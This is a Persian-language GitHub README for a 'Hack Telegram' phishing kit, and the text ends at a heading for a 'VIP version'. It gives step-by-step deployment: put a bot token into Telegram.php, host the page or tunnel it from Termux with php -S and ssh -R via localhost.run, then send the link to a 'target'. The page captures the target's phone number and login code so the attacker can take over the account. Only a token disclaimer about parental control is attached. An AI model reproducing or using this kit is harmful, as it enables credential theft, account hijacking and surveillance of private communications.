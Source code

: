 # Hack Telegram
<img src="pic1.png">
<h2>
آموزش هک تلگرام با ارسال لینک
</h2>
<h5>توجه کنید که این آموزش صرفا جهت کنترل فرزندان هست و مسئولیت و عواقب هرگونه ورود به خریم خصوصی افراد با خود شخص خواهد بود
</h5><h3>
آموزش استفاده از اسکریپت
</h3>
<h5>
روش اول با استفاده از هاست و دامنه:👇
</h5>
<h6>
ابتدا اسکریپت را از لینک زیر دانلود کنید:
<br>
https://github.com/HACKGM/Hack-Telegram/archive/refs/heads/main.zip
</br>
- سپس فایل Telegram.php  را ویرایش کنید و توکن ربات و آیدی عددی خودتون رو مانند تصویر زیر در اون قرار بدید و فایل رو ذخیره کنید،
<img src="pic.png">
<br>
و یک هاست و دامنه تهیه کنید و فایل اسکریپت رو در اون آپلود کنید و لینک رو به تارگت بدید ، وقتی شماره تلفن رو در صفحه اول وارد کردن و در ربات براتون ارسال شد سریعا شماره تلفن رو در تلگرام وارد کنید تا برای تارگت کد فعال سازی ارسال بشه ، وقتی کد رو وارد کنه براتون داخل ربات میاد و میتونید وارد تلگرام تارگت بشید.

</br>
〰️〰️〰️〰️〰️〰️〰️〰️〰️〰️〰️〰️〰️〰️
<h5>
روش دوم با استفاده از ترموکس :👇
</h5>
<h6>
اگه آموزش ترموکس رو بلد نیستید ابتدا از لینک زیر آموزش رو مطالعه کنید:
<a href="https://telegra.ph/%D8%AF%D9%88%D8%B1%D9%87-%D8%AA%D8%AE%D8%B5%D8%B5%DB%8C-%D8%A2%D9%85%D9%88%D8%B2%D8%B4-%D8%AA%D8%B1%D9%85%D9%88%DA%A9%D8%B3-11-21" >آموزش ترموکس</a>
<br>
<br>
ابتدا وارد ترموکس بشید و با دستور زیر اسکریپت رو دانلود کنید:
<br><pre>
git clone https://github.com/HACKGM/Hack-Telegram
</pre>
سپس با دستور زیر وارد پوشه اسکریپت بشید:
<br><pre>
cd Hack-Telegram
</pre>
<div>
وقتی در پوشه هستید لوکال هاست رو اجرا کنید با کد زیر:
<pre>
php -S 127.0.0.1:3000
</pre>
سپس صفحه ای جدید باز کنید با دستور زیر پورت فرواردینگ اجرا کنید:
<pre>
ssh -R 80:127.0.0.1:3000 nokey@localhost.run
</pre>
<br>
سپس لینک ساخته شده رو به تارگت بدید تا شماره تلفن و کدی که وارد میکنه براتون بیاد.
</br>
〰️〰️〰️〰️〰️〰️〰️〰️〰️〰️〰️〰️〰️〰️
</h6>
<h4>
⭐نسخه VIP هک تلگرام با ارسال لینک⭐
</h4>
<br>
<h6>

